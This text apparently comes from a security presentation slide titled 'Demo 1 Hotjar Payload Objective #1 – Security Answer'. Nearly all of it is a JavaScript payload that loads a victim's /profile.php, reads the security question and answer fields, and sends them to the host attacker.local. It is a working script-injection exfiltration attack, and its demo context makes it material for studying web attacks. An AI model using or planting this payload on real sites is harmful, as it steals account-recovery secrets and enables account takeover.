

fetch('/profile.php').then(function (response) {
  return response.text();
}).then(function (html) {
  // This is the HTML from our response as a text string
  const parser = new DOMParser();
    const pd = parser.parseFromString(html, "text/html");
    sq=(pd.getElementById('security_question')).value;
    sa=(pd.getElementById('security_answer')).value;

    fetch('https://attacker.local/exfil.html?sq='+sq+'&sa='+sa+"", {
        method: 'GET',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
            'credentials': 'include'
        }
    }).then((data) => {
        console.log('Success exfiltrating data.', data);
      })
      .catch((error) => {
        console.error('Error on GET:', error);
      })

}).catch(function (err) {
  // There was an error
  console.warn('Something went wrong on GET profile.php.', err);
});

# Demo 1 Hotjar Payload Objective #1 – Security Answer